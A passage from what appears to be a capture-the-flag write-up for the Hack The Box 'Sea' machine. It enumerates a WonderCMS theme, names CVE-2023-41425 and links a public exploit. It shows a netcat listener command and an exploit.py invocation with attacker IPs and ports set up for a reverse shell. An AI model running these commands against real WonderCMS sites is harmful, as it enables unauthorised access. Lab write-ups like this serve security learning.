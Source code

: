 I used ffuf and found out the following endpoint `http://sea.htb/themes/bike/README.md`

```bash
root@ENGINEERING:/home/cbjs/htb/sea# curl http://sea.htb/themes/bike/README.md
# WonderCMS bike theme

## Description
Includes animations.

## Author: turboblack

## Preview
![Theme preview](/preview.jpg)

## How to use
1. Login to your WonderCMS website.
2. Click "Settings" and click "Themes".
3. Find theme in the list and click "install".
4. In the "General" tab, select theme to activate it.
```

I do a quick google search and come across this cve `WonderCMS: **CVE-2023-41425**.`
https://github.com/prodigiousMind/CVE-2023-41425

### Apply the CVE

---

Firstly, I need to start netcat listener

```bash
rlwrap -cAr nc -lvp 6666
```

And we can generate a crafted link using the CVE exploit

```bash
python3 exploit.py -u http://sea.htb/loginURL -lh 10.10.14.41 -lp 7777 -sh 10.10.14.41 -sp 8888
```

The exploit generates this.

![image.png](image%204.png)

